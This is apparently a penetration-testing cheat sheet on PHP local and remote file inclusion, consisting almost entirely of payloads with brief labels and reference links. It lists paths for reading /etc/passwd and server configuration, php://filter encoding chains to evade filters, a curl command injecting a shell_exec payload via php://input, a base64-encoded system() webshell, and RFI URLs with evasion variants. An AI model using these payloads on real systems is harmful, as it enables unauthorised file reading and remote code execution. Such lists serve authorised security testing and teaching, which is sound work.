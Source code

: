 # File Inclusion

## Local File Inclusion (LFI)

### Linux LFI Payloads

```
/etc/passwd
```

Enumerate web server configurations.

```
/etc/apache2/apache2.conf
```

### Windows LFI Payloads

```
/windows/win.ini
```

### LFI Evasion Filters

Retrieve file via base64 encoded.

```
php://filter/convert.base64-encode/resource=/remote/path/to/file

php://filter/convert.iconv.utf-8.utf-16/resource=/remote/path/to/file

$ basenc -d --base64 <<< "<base64_string>"
```

Retrieve file via base64 encoded and zlib deflated.

```
php://filter/zlib.deflate/convert.base64-encode/resource=/remote/path/to/file

$ php -r 'echo gzinflate(base64_decode(file_get_contents("php://stdin")));' <<< "<base64_string>"
```

Retrieve file via ROT13 encoded.

```
php://filter/read=string.rot13/resource=/remote/path/to/file
```

```
curl -X POST --data "<?php echo shell_exec('ls'); ?>" "http://example.com/index.php?page=php://input%00" -v

php://input&cmd=ls
```

```
expect://<os_command>
```

```
$ basenc -w 0 --base64url <<< "<?php system($_GET['cmd']); ?>"
```

```
data:text/plain;base64,<base64_encoded_payload>
```

```
zip://file.jpg%23shell.php
```

## Remote File Inclusion (RFI)

### URL Payloads

```
https://cirt.net/rfiinc.txt
https://rfi.nessus.org/rfi.txt
```

### RFI Evasion

```
HTTps://cirt.net/rfiinc.txt
https://cirt.net/rfiinc.txt?
https://cirt.net/rfiinc.txt??
https://cirt.net/rfiinc.txt?%00
```

---
## References

### Wordlist

- [PinoyWH1Z: SSH-Private-Key-Looting-Wordlists](https://github.com/PinoyWH1Z/SSH-Private-Key-Looting-Wordlists)

### Hacktricks

- [Hacktricks: PHP - Useful Functions & disable_functions/open_basedir bypass](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass/index.html)

### PayloadsAllTheThings

- [PayloadsAllTheThings: File Inclusion](https://swisskyrepo.github.io/PayloadsAllTheThings/File%20Inclusion/)

### 0xffsec

- [0xffsec: Handbook File Inclusion and Path Traversal](https://0xffsec.com/handbook/web-applications/file-inclusion-and-path-traversal/)

- [Cobalt: A Pentester's Guide to File Inclusion](https://www.cobalt.io/blog/a-pentesters-guide-to-file-inclusion)

- [Malicious.link: Simple PHP webshell with php filter chains](https://room362.com/posts/2023/simple-php-webshell-with-php-filter-chains/)

- [Certcube: Cheatsheet - LFI & RCE & Webshells](https://blog.certcube.com/detailed-cheatsheet-lfi-rce-webshells/)